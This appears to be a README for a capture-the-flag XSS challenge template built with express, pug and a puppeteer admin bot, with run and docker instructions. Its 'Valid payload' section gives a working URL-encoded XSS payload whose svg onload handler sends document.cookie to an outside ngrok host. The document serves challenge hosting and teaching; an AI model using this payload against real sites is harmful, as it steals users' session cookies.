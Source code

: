 XSS Template
==============

This project is supposed to be a template for XSS challenges if you host CTFs.

Uses express, pug templating system and puppeteer for the admin bot.


Valid payload
--------------

`http://localhost:4000/?xss=%3Csvg%20onload=%22fetch(%27http://dd77eda6.ngrok.io/?%27%2bdocument.cookie)%22%20/%3E`


Running locally
================

`FLAG=FireShell{test} npm start`


How to setup
============

Flag is sent at src/bot.js, it's defined by the environment variable FLAG.


Building the docker image
==========================

`docker build -t xss .`


Running the docker image
=========================

`docker run --cap-add=SYS_ADMIN -e FLAG=FireShell{test} -p 4000:4000 xss`
